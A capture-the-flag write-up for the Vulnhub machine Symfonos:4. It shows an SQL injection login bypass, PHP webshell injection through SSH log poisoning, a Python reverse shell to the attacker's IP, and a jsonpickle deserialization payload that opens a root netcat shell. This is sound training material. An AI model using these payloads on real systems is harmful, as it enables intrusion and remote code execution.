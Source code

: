 # Symfonos:4 - Writeup 

Symfonos:4 is an OSCP-like Intermediate real-life based machine from Vulnhub by Zayotic.<br />
This machine is designed to teach people the importance of trying harder.<br />
Link to the machine: [https://www.vulnhub.com/entry/symfonos-4,347/](https://www.vulnhub.com/entry/symfonos-4,347/)
<br />

## Information Gathering

Our first step is identifying our target IP Add.

```bash
┌─[a7@Parrot]─[~/Desktop/vulnHub/Symfonos:4]
└──╼ $fping -agq 10.10.10.0/24
10.10.10.1
10.10.10.2
10.10.10.10
```

<br />

## Ports and Services

Scanning our target for any open port, running services, and version detection.

![](Pics/nmap.png)
<br />
<br />

## Web Enumeration

Let's visit the website.

![](Pics/web.png)
<br />
<br />

We got a picture, inspecting the source code and nothing was found.<br />
Launch `gobuster` to brute-force hidden directories.

![](Pics/enum.png)
<br />
<br />

Let's visit `/atlantis.php`.

![](Pics/web2.png)
<br />
<br />

We got a **Login Form**, tried a few SQL Injection queries and it works.<br />
Enter in Username: `' or 1=1 -- -` and anything in Password.

![](Pics/web3.png)
<br />
<br />

We got a prompt to select a god. When selecting any god, we redirected to `/sea.php?file=hades`.

![](Pics/web4.png)
<br />
<br />

We may get a Local File Inclusion.<br />
Tried to include `/etc/passwd` but didn't work, tried to include different log files and we got `/var/log/auth` which indicates for ssh log poisoning.

![](Pics/web5.png)
<br />
<br />

Let's inject a php code in `/var/log/auth`, the code is:
```bash
ssh '<?php system($_GET['exp']); ?>'@10.10.10.10
```
> Ps: You could change the word "exp" to any word or letter, it's just a parameter to use.

<br />

![](Pics/ssh.png)
<br />
<br />

Now, add `&exp=ls -la` to the URL.
![](Pics/web6.png)
<br />
<br />

Launch a listener, run the reverse shell in the `exp` parameter.<br />
The shell is:

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.2",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```
<br />

![](Pics/shell.png)
<br />
<br />

## Privilege Escalation

Searching around to escalate our privileges, we found a **Python code** in `/opt/code`.

![](Pics/shell2.png)
<br />
<br />

I notice that files under `/opt/code` indicate a web application, so looked at the processes and open ports and found that there's port 8080 opened locally.

![](Pics/shell3.png)
<br />
<br />

Port 8080 is allowed locally, so we need port forwarding to open it.<br />
Let's forward port 8080 to our machine: `socat TCP-LISTEN:2345,fork TCP:127.0.0.1:8080`

![](Pics/shell4.png)
<br />
<br />

Great! Now, in the web browser open `10.10.10.10:2345`.

![](Pics/web7.png)
<br />
<br />

Click on **Main page**.

![](Pics/web8.png)
<br />
<br />

OK, back to `/whoami` page, inspecting the source code but nothing useful. Open **Burp** to see what's going on.

![](Pics/burp.png)
<br />
<br />

We got a cookie encoded in base64, let's decode it in the **Decoder**.

![](Pics/burp2.png)
<br />
<br />

Remember, we saw this in `/opt/code`, this's **jsonpickle**.<br/>
Searching for an exploit and we found an article.

> Reference: [https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

Let's build our shell:
```bash
{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["nc 10.10.10.2 3456 -e /bin/bash"]}, null, null, null]}
```
Encode it in the **Decoder**, in **Repeater** replace the old one with the new one and send it.

![](Pics/root.png)
<br />
<br />
